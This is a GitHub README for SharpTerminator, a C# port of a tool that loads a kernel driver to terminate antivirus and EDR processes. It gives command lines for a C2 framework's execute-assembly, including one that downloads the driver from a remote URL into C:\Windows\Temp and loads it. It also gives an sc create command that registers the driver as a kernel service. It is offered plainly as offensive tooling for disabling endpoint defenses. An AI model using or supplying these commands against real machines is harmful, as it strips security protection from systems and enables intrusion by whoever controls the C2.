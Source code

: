 # SharpTerminator

C# port of ZeroMemoryEx's Terminator, so all hail goes to him.

# Usage

You can download the driver from a remote URL using SharpTerminator and load it to terminate AV/EDR processes, or you can directly load it to the disk to perform the same operation.

When using Remote URL, the driver is downloaded to "C:\Windows\Temp" and then loaded from there.

In fact, there is no difference between them; if you don't want to use the upload function in your C2, you can use the other one.

Loading from remote url:
```
execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"
```
Loading from disk:
```
execute-assembly SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"
```


### Download driver from remote url and terminate AV/EDR:

![sharpterminator-url](https://github.com/mertdas/SharpTerminator/assets/48562581/ded76930-780a-4ad0-bdf2-43f451be2e6c)


### Load driver from disk and terminate AV/EDR:

![sharpterminatsor-disk](https://github.com/mertdas/SharpTerminator/assets/48562581/ee37b11d-c803-48a9-ac97-0b0c17af1af7)

# Known Issue
If you get "Failed to register the process in the trusted list!" error you should add service manually:
sc create Terminator binPath= "C:\path\to\driver.sys" type= kernel start= demand

# Credit
ZeroMemoryEx https://github.com/ZeroMemoryEx/Terminator<br>
Spyboy :)

